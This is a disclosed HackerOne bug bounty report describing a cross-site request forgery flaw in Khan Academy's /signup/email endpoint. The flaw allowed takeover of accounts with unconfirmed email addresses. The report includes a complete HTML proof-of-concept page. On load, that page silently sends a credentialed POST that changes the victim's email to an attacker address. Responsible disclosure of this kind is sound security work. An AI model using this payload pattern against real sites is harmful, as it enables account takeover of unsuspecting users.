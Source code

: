 # Cross-Site Request Forgery (CSRF) vulnerability on API endpoint allows account takeovers

## Report Details
- **Report ID**: 419891
- **URL**: https://hackerone.com/reports/419891
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-10-06T00:33:56.475Z
- **Disclosed**: 2019-06-22T01:07:58.369Z

## Reporter
- **Username**: rlaneth
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: khanacademy

## Vulnerability Information
## Summary

The `/signup/email` API endpoint at [khanacademy.org](https://khanacademy.org) is vulnerable to Cross-Site Request Forgery (CSRF) attacks, allowing takeovers of accounts associated with unconfirmed email addresses.

## Description

The vulnerable endpoint allows an authenticated user to change the email address associated with their account if they have not yet confirmed the current address. However, it does not sufficiently verify that requests were intentionally performed by the user (e.g. by checking the values of HTTP headers and using an anti-CSRF token).

## Proof-of-Concept (PoC)

This is the code used for the demonstration video attached to this report (ka-signup-email-csrf.mp4).

```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8" />
        <title>Khan Academy Signup Email CSRF PoC</title>
        <style type="text/css">
        body {
            display:flex;
            flex-direction:column;
            justify-content:center;
            min-height:100vh;
            margin:0;
        }
        p {
            display:flex;
            align-self:center;
            font-size:0.8rem;
            font-family:sans-serif;
            font-weight:bold;
            text-transform:uppercase;
            letter-spacing:0.1rem;
        }
        </style>
    </head>
    <body>
        <p>Khan Academy Signup Email CSRF PoC</p>
        <script type="text/javascript">
            window.addEventListener('load', function(e) {
                var attacker_addr = 'attacker@rapidlight.io';
                var x = new XMLHttpRequest();
                x.open('POST', 'https://www.khanacademy.org/signup/email', true);
                x.withCredentials = true;
                x.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
                x.send('email=' + encodeURIComponent(attacker_addr));
            }, false);
        </script>
    </body>
</html>
```

## Impact

An attacker can exploit this vulnerability in order to take over accounts by associating them with an address controlled by the attacker, then performing a password reset. In order for the attack to be successful, the target user account must be associated with an unconfirmed email address, and the target user must visit an attacker-controlled website while logged in.

## Attachments
No attachments
